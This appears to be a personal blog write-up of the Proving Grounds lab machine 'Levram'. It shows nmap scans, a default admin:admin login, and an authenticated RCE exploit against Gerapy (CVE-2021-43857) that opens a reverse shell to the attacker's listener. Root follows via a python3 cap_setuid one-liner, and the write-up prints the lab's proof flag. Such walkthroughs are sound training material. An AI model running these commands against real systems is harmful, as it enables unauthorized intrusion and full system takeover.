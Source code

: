 ```yaml
---
date: '2024-09-04'
before : '2024-09-01'
after : '2024-09-06'
title: 'Proving Grounds : Levram'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving GLPI machine from Proving Grounds'
thumbnail: '../contentImages/levram/levram-1.png'
---
```

## 0. Machine Info

Levram is an easy machine from Proving Grounds, and this one is pretty straight forward.

## 1. Recon
- nmap

```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p-       
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:13 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```


- port 22
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (95%), Linux 5.0 - 5.4 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), HP P2000 G3 NAS device (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   28.77 ms 192.168.45.1
2   28.51 ms 192.168.45.254
3   37.19 ms 192.168.251.1
4   37.45 ms 192.168.211.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.09 seconds
```


- port 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.211.24 -T4 -p8000 -A -sC -sV -Pn
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 13:21 EDT
Nmap scan report for 192.168.211.24
Host is up (0.029s latency).

PORT     STATE SERVICE  VERSION
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6
|_http-title: Gerapy
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

There is nothing special or common cve with versions above or any interesting interactions. Let's start with webapp enumeration.

## 2. Initial Foothold

I tried a basic admin:admin, and I got in (...)

![levram-1](../contentImages/levram/levram-1.png)

Then, the footer revealed that they have Gerapy 0.9.6 running behind the webapp. Since Subdirectory enumeration didn't work well, I started to search CVE for Gerapy


Quick search for CVE:

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit gerapy          
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Gerapy 0.9.7 - Remote Code Execution (RCE) (Authenticated)                                    | python/remote/50640.py
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

That's exactly what we need!


For this exploit, we need more than one project. But as we can see from the first image, we have no projects right now, so I simply created a project.

![levram-2](../contentImages/levram/levram-2.png)

Then I executed the script, got my shell.

```
┌──(hosan㉿kali)-[~/pg/levram]
└─$ python3 50640.py -t 192.168.211.24 -p 8000 -L 192.168.45.230 -P 443
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
{'Authorization': 'Token b58db15bafeac901558a5da07b2b894f1f2b7111'}
[*] Getting the project list
[{"name": "exploit"}]
[{"name": "exploit"}]
[*] Found project: exploit
[*] Getting the ID of the project to build the URL
[*] Found ID of the project:  1
[*] Setting up a netcat listener
listening on [any] 443 ...
[*] Executing reverse shell payload
[*] Watchout for shell! :)
connect to [192.168.45.230] from (UNKNOWN) [192.168.211.24] 55734
bash: cannot set terminal process group (844): Inappropriate ioctl for device
bash: no job control in this shell
app@ubuntu:~/gerapy$ 

```

## 3. PrivEsc to root

I executed linpeash.sh, but there were too many potential risks.


What I tried:

- sudo -l
- kernel exploit
- suid/sgid binary


Nothing worked. But at last, I found that python3 (as binary) has following (linux-) capability!:
```
Files with capabilities (limited to 50):
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/snap/core20/2318/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep !this one
```

What is capability then?


> Capabilities are useful when you want to restrict your own processes after performing privileged operations (e.g. after setting up chroot and binding to a socket). However, they can be exploited by passing them malicious commands or arguments which are then run as root.

For example, if there is setuid capability bit for a binary allowed, the binary is allowed to change the setuid of it's process if it is being executed, since cap_setuid=ep is enabled for python3.10!


It means, we can use import os; os.setuid(0) by executing python from command shell!

```
app@ubuntu:~/gerapy$ python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
< -c 'import os;os.setuid(0);os.system("/bin/bash")'
whoami
root
cat /root/proof.txt
96809490798d8d9d8779af42f6fb0f24
```

I got root. That's pretty much it.

## 4. Review

Easy enough, fair enough.


It covered all basic stuffs though (with privesc enumeration)

---
## 5. Source

- Proving Grounds
- Me!